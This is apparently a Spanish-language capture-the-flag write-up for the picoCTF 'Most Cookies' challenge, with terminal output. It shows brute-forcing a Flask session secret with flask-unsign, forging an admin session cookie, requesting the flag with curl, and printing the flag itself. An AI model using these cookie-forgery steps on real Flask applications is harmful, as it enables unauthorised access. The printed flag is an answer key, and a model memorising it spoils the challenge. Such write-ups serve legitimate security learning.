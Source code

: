 # Most Cookies

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py) [http://mercury.picoctf.net:18835/](http://mercury.picoctf.net:18835/)

## Hints 1

* How secure is a flask cookie?

## Solución

Entramos al sitio web proporcionado, e ingresamos **snickerdoodle** al ver que no nos muestra la flag, trataremos de usar un **flask-unsign** para modificar el admin y hacer todo un proceso para que nos muestre nuestra flag.

* Primero debemos instalamos los siguientes comandos para poder utilizar en la terminal:
**sudo apt install pipx (si no funciona este comando se puede utilizar el siguiente:)
sudo apt install python3.8-venv
pipx ensurepath
pipx install flask-unsing

**Nota importante: En algunos casos los comandos pueden variar, entonces es ver cuales comandos sirven en cada terminal.**

```
jazmin@DESKTOP-1CBQJ6D:~$ sudo apt install python3.8-venv
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
  python-pip-whl
The following NEW packages will be installed:
  python-pip-whl python3.8-venv
0 upgraded, 2 newly installed, 0 to remove and 0 not upgraded.
Need to get 1814 kB of archives.
After this operation, 2344 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://archive.ubuntu.com/ubuntu focal-updates/universe amd64 python-pip-whl all 20.0.2-5ubuntu1.11 [1808 kB]
Get:2 http://archive.ubuntu.com/ubuntu focal-updates/universe amd64 python3.8-venv amd64 3.8.10-0ubuntu1~20.04.18 [5448 B]
Fetched 1814 kB in 2s (855 kB/s)
Selecting previously unselected package python-pip-whl.
(Reading database ... 41614 files and directories currently installed.)
Preparing to unpack .../python-pip-whl_20.0.2-5ubuntu1.11_all.deb ...
Unpacking python-pip-whl (20.0.2-5ubuntu1.11) ...
Selecting previously unselected package python3.8-venv.
Preparing to unpack .../python3.8-venv_3.8.10-0ubuntu1~20.04.18_amd64.deb ...
Unpacking python3.8-venv (3.8.10-0ubuntu1~20.04.18) ...
Setting up python-pip-whl (20.0.2-5ubuntu1.11) ...
Setting up python3.8-venv (3.8.10-0ubuntu1~20.04.18) ...
jazmin@DESKTOP-1CBQJ6D:~$ python3 --version
Python 3.8.10
jazmin@DESKTOP-1CBQJ6D:~$ pipx ensurepath
Your PATH looks like it already is set up for pipx. Pass `--force` to modify the PATH.
jazmin@DESKTOP-1CBQJ6D:~$ pipx install flask-unsign
  installed package flask-unsign 1.2.1, Python 3.8.10
  These binaries are now globally available
    - flask-unsign
done! ✨ 🌟 ✨
jazmin@DESKTOP-1CBQJ6D:~$
```

Una vez instaladas las cosas podemos seguir para buscar la cookie secreta que esta encriptada, pero antes de eso abrimos nuestro archivo **server.py** y en la parte de **cookie_names** copiamos todos los nombres y los acomodamos en un archivo de texto en forma de lista al cual lo nombraremos **cookies.txt** después de esto volvemos a nuestra terminal e ingresamos el siguiente comando:
`flask-unsign -u --server "http://mercury.picoctf.net:18835" --wordlist cookies.txt`
el cual nos mostrara nuestra cookie secreta que en este caso fue **fortune**

Ingresamos el siguiente comando:
`flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune`

y nos muestra un nuevo valor de la cookie.

Entonces aplicamos un curl con el respectivo url y el nuevo valor en el session de la cookie y por ultimo aplicamos un grep para que muestre nuestra flag.
`curl -s http://mercury.picoctf.net:18835k/display -H "cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg" | grep -oE "picoCTF{.*?}"`

### Simulación de la Terminal
```
jazmin@DESKTOP-1CBQJ6D:~/FIS$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8q-w.8YKICmof6BD7UmkxDV4OAAwTIZc | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
jazmin@DESKTOP-1CBQJ6D:~/FIS$ cat coockies.txt
cat: coockies.txt: No such file or directory
jazmin@DESKTOP-1CBQJ6D:~/FIS$ cat cookies.txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
jazmin@DESKTOP-1CBQJ6D:~/FIS$ flask-unsign -u --server "http://mercury.picoctf.net:18835" --wordlist cookies.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z-806Q.OELjUY1NHIVxg-BTdRr8XW8Mf0Y
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
jazmin@DESKTOP-1CBQJ6D:~/FIS$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg
jazmin@DESKTOP-1CBQJ6D:~/FIS$ curl -s http://mercury.picoctf.net:18835k/display -H "cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg" | grep -oE "picoCTF{.*?}"
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

```
### Respuesta: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
